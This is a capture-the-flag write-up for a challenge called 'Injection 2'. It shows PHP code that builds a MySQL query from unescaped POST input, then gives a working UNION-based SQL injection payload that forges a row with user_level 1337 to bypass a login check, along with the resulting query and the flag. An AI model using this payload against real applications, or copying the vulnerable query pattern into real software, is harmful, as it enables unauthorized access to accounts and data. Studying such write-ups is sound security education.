Injection 2
===========
Worth: 110 points

Using unescaped POST data in PHP for MySQL requests is very bad. Here we have
(in the source):

```PHP
<?php
// ...
$username = $_POST["username"];
$password = $_POST["password"];
$debug = $_POST["debug"];
$query = "SELECT * FROM users WHERE username='$username'";
$result = mysqli_query($con, $query);
// ...
?>
```

So, a user can pass in any string to `$username`, and if it contains a 
single-quote, we can execute custom SQL commands.

The database contains no data, so we must generate a fake result. To do this, 
we use a combination of **union** and **select** to create fake data:

```SQL
union select * from (select 1 as id, 'a' as username, 'a' as password, 1, 1337 as user_level) as fake
```
- The value 1' is just an arbitrary value for an unnamed row, so that when we 
`union` this result, it has the same number of columns as the database (which 
is apparently five).
- The value '1337' allows us to get past the user\_level check:
```PHP
if ($row["user_level"] >= 1337) {
      echo "<p>Your flag is: $FLAG</p>";
} else {
      echo "<p>Only user levels 1337 or above can see the flag.</p>";
}
```

We also use `as` to give our fake row a name.

We want to pass in this command so that `$username` has a **value** +
 **a single-quote** + _the rest of our command_. To do thsi, we now have:
```
a' union select * from (select 1 as id, 'a' as username, 'a' as password, 1, 1337 as user_level) as fake union select * from users where password='a
```
- The last part (union select ... where password) is so that we can keep an 
even number of single-quotes, so that the enclosing single-quote from the 
original `$query` command is matched.
- Putting it all together, when we pass in our input for `$username` (we also 
pass in the value "a" for `$password`), the query on the server will be:
```SQL
SELECT * FROM users WHERE username='a' union select * from (select 1 as id, 'a' as username, 'a' as password, 1, 1337 as user_level) as fake union select * from users where password='a'
```

Our flag is `flag_nJZAKGWYt7YfzmTsCV`
